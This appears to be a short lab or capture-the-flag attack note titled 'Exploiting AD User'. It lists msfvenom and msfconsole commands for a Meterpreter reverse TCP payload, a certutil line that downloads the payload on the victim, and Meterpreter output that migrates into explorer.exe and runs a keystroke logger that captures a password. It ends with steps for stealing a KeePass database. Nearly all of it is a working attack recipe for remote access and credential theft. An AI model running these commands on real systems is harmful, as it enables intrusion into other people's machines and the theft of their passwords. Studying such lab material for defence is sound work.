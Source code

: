 # Exploiting AD User

## Keylogger

attacker

```
# generate payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1

# listening server
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT "listening port'; exploit"


```

victime

```
certutil.exe -urlcache -split -f http:///shell.ps1
```

attacker

```
meterpreter\>ps | grep "explorer"
Filtering on 'explorer'

Process List
============

 PID   PPID  Name          Arch  Session  User                     Path
 ---   ----  ----          ----  -------  ----                     ----
 3612  3592  explorer.exe  x64   1        THMSERVER1\trevor.local  C:\Windows\explorer.exe
 
 meterpreter\>migrate 3612
[*] Migrating from 4408 to 3612...
[*] Migration completed successfully.

meterpreter\>getuid
Server username: THMSERVER1\trevor.local

Terminal
meterpreter\>keyscan_start
Starting the keystroke sniffer ...

Terminal
meterpreter\>keyscan_dump
Dumping captured keystrokes...
keep<CR>
<Shift>Passwordpasswordpassword<CR>
```

## Keepass

Steal Keepass database

* brute force password keepass or get it from the keylogger

